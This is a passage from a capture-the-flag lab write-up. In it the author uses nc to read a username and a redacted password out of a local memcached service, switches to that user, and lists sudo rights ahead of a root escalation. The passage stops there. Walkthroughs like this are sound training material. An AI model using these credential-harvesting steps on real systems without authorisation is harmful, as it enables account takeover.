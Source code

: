 **`cachedump 1` has `password` and `username`!**

**Let's get the saved info:**
```
www-data@osboxes:/$ echo "get username" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE username 0 4
Orka
END

www-data@osboxes:/$ echo "get password" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE password 0 15
{Redacted}
END
```

**Found `Orka` password!**

Let's **Switch User** to `Orka`!

```
www-data@osboxes:/$ su Orka
Password: 
Orka@osboxes:/$ whoami;hostname;id;ip a
Orka
osboxes
uid=1001(Orka) gid=1001(Orka) groups=1001(Orka)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:94:36:70:83:dd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.35/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::94:36ff:fe70:83dd/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `Orka`!

**user.txt:**
```
Orka@osboxes:/$ cat /home/Orka/user.txt 
{Redacted}
```

## Orka to root

**Sudo permission:**
```
Orka@osboxes:/$ sudo -l
[sudo] password for Orka: 
Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```
